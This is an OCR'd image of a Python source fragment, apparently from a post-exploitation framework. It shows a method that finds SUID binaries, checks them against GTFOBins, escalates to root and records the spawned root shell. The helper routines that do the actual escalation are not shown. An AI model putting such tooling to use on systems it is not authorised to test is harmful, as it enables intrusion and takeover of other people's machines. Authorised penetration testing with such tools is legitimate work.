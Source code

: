 ```python
            # ... more exploits
        }
    
    async def execute(
        self,
        target: str,
        credentials: Optional[Dict] = None,
        **kwargs
    ) -> PostExploitResult:
        """Execute SUID privilege escalation"""
        
        start_time = time.time()
        
        try:
            # Step 1: Find SUID binaries
            suid_binaries = await self._find_suid_binaries(target)
            
            # Step 2: Check exploitable binaries
            exploitable = await self._check_gtfobins(suid_binaries)
            
            if not exploitable:
                return PostExploitResult(
                    technique_id=self.technique_id,
                    category=self.category,
                    status=PostExploitStatus.FAILED,
                    success=False,
                    output="No exploitable SUID binaries found",
                    artifacts={},
                    evidence=[],
                    error=None,
                    duration_seconds=time.time() - start_time,
                    risk_score=0.0
                )
            
            # Step 3: Execute escalation
            result = await self._execute_escalation(
                target, 
                exploitable[0]  # Try first exploitable binary
            )
            
            # Step 4: Verify root access
            is_root = await self._verify_root_access(target)
            
            return PostExploitResult(
                technique_id=self.technique_id,
                category=self.category,
                status=PostExploitStatus.SUCCESS if is_root else PostExploitStatus.FAILED,
                success=is_root,
                output=result["output"],
                artifacts={
                    "suid_binary": exploitable[0],
                    "root_shell": result["shell_path"],
                    "escalation_method": result["method"]
                },
                evidence=[
                    f"Executed SUID binary: {exploitable[0]}",
                    f"Shell spawned: {result['shell_path']}",
                    "Privilege escalation successful"
                ],
                error=None,
                duration_seconds=time.time() - start_time,
                risk_score=0.8
            )
```